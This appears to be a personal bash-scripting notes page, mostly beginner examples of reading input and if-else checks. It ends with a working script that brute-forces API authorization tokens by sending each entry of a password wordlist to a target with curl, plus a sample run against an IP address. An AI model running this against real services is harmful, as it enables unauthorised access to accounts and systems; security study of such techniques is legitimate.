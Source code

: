 # Scripts
# Basic Commands
Refs :
* <https://www.youtube.com/watch?v=LTuuMtQR1uQ&list=PLBf0hzazHTGMJzHon4YXGscxUvsFpxrZT
>
## Read input from user prompt
```bash
#!/bin/bash

read -p "Enter your Name : " NAME
echo "Your name is $NAME"
```
output
```sh
$ ./testscript.sh 
Enter your Name : tester
Your name is tester
```

## If-else
```bash
#!/bin/bash

echo "Enter your username : "
read NAME

if [ "$NAME" = "Eliot" ];
then
  echo "Welcome back Eliot"
else
  echo "Please register"
fi
```
output
```sh
$ ./testscript.sh 
Enter your username : 
Eliot
Welcome back Eliot
```


# Useful Scripts
## Authorization Token
Bash script to read different tokens from a file and pass them to `curl` command to find out the valid token for authorization
```bash
#!/bin/bash
while read token; do
content=$(curl -s -H 'Authorization: Token '"$token" $1)
if echo "$content" | grep -qi "unauth"; then
continue
else
echo "Found token : $token"
fi
done <$2
```
output
```sh
./brute.sh 192.186.248.3 wordlists/100-common-passwords.txt
```

